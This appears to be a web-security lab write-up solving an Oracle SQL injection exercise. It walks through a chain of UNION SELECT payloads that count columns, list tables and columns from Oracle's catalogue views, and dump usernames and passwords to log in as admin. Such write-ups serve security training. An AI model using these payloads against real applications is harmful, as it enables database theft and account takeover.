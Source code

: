 # Lab: SQL injection attack, listing the database contents on Oracle

## Lab Description

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/d301369a-6ba1-409f-a02d-043cfea274a2)

## Solution

The webpage has a vulnerability in the product category filter.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/cd4a4471-20c9-423d-8576-821181f25f0b)

Use the payload `'+UNION+SELECT+NULL,NULL+FROM+dual--` to find out the rows being returned and there are two rows being returned.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/af192298-6fe2-40e7-bae5-6c03254f6304)

Use payload `'+UNION+SELECT+'abc','def'+FROM+dual--` and both rows being returned are strings.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/fc74a2df-b986-4f86-95cb-7c82961e8235)

Use payload `'+UNION+SELECT+table_name,NULL+FROM+all_tables--` to find out all the tables and one of the tables returned is `USERS_PNZEPP`.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/47e8b125-ef50-4bc5-ba4a-d17589ccccb4)
USERS_PNZEPP

Use the payload `'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_PNZEPP'--` to find all columns in the users table.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/a8d7fdbc-b407-481d-babe-016af3d2f886)

Use the payload `'+UNION+SELECT+USERNAME_UEKCLC,+PASSWORD_HTBMFZ+FROM+USERS_PNZEPP--` to retrieve all the username along with their passwords and one of them is the admin username and password.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/bc7ff7d2-0dd2-4814-baf3-7d653a2cc2b8)

Use the admin login credentials to log in as admin and finish the lab.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/ab4c0643-2612-40fc-bf83-ff64a317d191)
